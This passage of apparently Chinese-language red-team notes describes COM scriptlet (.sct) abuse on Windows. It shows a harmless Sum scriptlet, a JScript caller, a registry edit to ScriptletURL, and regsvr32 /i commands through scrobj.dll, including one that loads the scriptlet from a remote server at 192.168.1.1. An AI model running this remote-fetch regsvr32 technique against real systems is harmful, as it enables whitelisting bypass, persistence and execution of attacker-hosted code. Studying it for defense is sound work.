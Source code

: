 2. ##### 同样方法利用js 实现

   > [地址](https://github.com/subTee/SCTPersistence/blob/master/ComponentJS.sct)

   > ```xml
   > <?XML version="1.0"?>
   > <scriptlet>
   > 
   > <registration
   >     description="Component"
   >     progid="Component.InsideCOMJS"
   >     version="1.00"
   >     classid="{10001111-0000-0000-0000-000000000002}"
   > >
   > </registration>
   > 
   > <public>
   >     <method name="Sum">
   >         <PARAMETER name="X"/>
   >         <PARAMETER name="Y"/>
   >     </method>
   > </public>
   > <script language="JScript">
   > <![CDATA[
   > 
   > function Sum(X, Y) {
   >     var result = X + Y;
   >     return result;
   >     }
   > ]]>
   > </script>
   > 
   > </scriptlet>
   > ```
   >
   > - [js调用](https://github.com/subTee/SCTPersistence/blob/master/TestJS.j)
   >
   >   ```javascript
   >   var ref = new ActiveXObject("Component.InsideCOMJS");
   >   var x = ref.Sum(4,6);
   >   WScript.Echo(x);
   >   ```
   >
   > - [x] 通过更改注册表项值来修改COM组件的内容：
   >
   >   [HKCRCLSID{10001111-0000-0000-0000-000000000001}ScriptletURL]
   >   @="file://C:\WINDOWS\Desktop\Component.sct"
   >
   > - [x] 文件名不一定用sct
   >
   >   regsvr32 /i:"Component.txt" scrobj.dll
   >
   > - [x] 远程服务器存放更改
   >
   >   regsvr32 /s /i:http://192.168.1.1/Component.txt scrobj.dll
